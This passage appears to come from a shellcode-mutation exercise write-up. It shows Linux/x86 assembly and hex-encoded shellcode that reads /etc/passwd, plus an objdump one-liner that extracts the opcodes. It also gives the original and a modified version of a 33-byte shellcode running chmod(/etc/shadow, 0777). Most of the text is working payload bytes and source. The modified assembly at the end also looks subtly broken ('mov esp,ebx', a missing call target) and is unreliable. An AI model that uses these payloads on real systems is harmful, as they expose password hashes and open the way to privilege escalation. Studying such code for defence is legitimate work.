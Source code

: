 ```
	call	one
	shell: db	'/etc/passwd'
```

Modified shellcode:

	objdump -d ./shell|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
	\x31\xdb\xf7\xe3\x99\x53\x59\xeb\x3d\x5b\x90\xb0\x05\x31\xc9\xcd\x80\x89\xc7\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xfb\xb0\x03\x83\xec\x01\x8d\x0c\x24\x90\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe5\x6a\x04\x58\x6a\x01\x5b\x6a\x01\x5a\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xd5\xe8\xbe\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64

That is approximately **128%** the size of the original version.

# Shellcode 3: Linux/x86 - chmod(/etc/shadow, 0777) - 33 bytes
[This](http://shell-storm.org/shellcode/files/shellcode-590.php) one is interesting exactly because it does not use good and old JMP/CALL/POP technique. Well, not for a long time, huhu.

Original version:

```
xor %eax,%eax
push %eax
mov $0xf,%al
push $0x776f6461
push $0x68732f63
push $0x74652f2f
mov %esp,%ebx
xor %ecx,%ecx
mov $0x1ff,%cx
int $0x80
inc %eax
int $0x80
```

Original shellcode:

	\x31\xc0\x50\xb0\x0f\x68\x61\x64\x6f\x77\x68\x63\x2f\x73\x68\x68\x2f\x2f\x65\x74\x89\xe3\x31\xc9\x66\xb9\xff\x01\xcd\x80\x40\xcd\x80
	
Modified source code (Intel ftw):

```
section .text
	global _start

_start:

	jmp short two
	nop	;useless instruction
	nop	;useless instruction

one:
	pop ebx
	xor ecx,ecx
	mul eax
	push ecx
	mov al, 0xf
	mov esp,ebx
	mov cx, 0x1ff
	int 0x80

	inc eax
	int 0x80
```